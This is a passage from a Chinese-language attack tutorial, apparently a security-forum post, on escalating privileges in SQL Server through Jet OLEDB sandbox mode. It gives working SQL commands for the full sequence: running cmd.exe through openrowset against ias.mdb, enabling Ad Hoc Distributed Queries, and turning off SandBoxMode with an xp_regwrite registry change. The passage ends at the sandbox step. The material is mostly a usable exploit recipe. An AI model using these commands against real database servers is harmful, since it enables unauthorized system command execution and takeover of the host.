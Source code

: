 #### 1）SQL Server 沙盒简介

沙盒模式是一种安全功能，用于限制数据库只对控件和字段属性中的安全且不含恶意代码的表达式求值。如果表达式不使用可能以某种方式损坏数据的函数或属性（如Kill 和 Shell 之类的函数），则可认为它是安全的。当数据库以沙盒模式运行时，调用这些函数的表达式将会产生错误消息。

沙盒提权的原理就是`jet.oledb`（修改注册表）执行系统命令。数据库通过查询方式调用`mdb`文件，执行参数，绕过系统本身自己的执行命令，实现`mdb`文件执行命令。

**利用前提：**

1. 需要`Microsoft.Jet.OLEDB.4.0`  
    一般在32位系统才可以，64位机需要12.0，较复杂
2. `dnary.mdb`和`ias.mdb`两个文件  
    在`win2003`上默认存在，也可自行准备

#### 2）沙盒提权

复现环境

```php
SQL Server2008 (Win2003-x32)
IP: 192.168.112.173
```

##### Ⅰ 测试 jet.oledb 能否使用

```php
select * from openrowset('microsoft.jet.oledb.4.0',';datab ASe=c:\windows\system32\ias\ias.mdb','select shell("cmd.exe /c whoami")')
```

![2s42p6.png](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-b37bc3c22ae75d4594c644f322bb2863ded8d7e0.png)

##### Ⅱ 开启Ad Hoc Distributed Queries组件

```php
exec sp_configure 'show advanced options',1 ;
reconfigure ;
exec sp_configure 'Ad Hoc Distributed Queries',1 ;
reconfigure;
```

![2s4cfx.png](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-06116edeec252b4ddf7ead7c248b69efc10cc960.png)

类似的，关闭组件命令

```php
exec sp_configure 'show advanced options',1 ;
reconfigure ;
exec sp_configure 'Ad Hoc Distributed Queries',0 ;
reconfigure;
```

##### Ⅲ 关闭沙盒模式

```php
exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines','SandBoxMode','REG_DWORD',0;

沙盒模式`SandBoxMode`参数含义（默认是2）
0：在任何所有者中禁止启用安全模式
1：为仅在允许范围内
2：必须在access模式下
3：完全开启
```
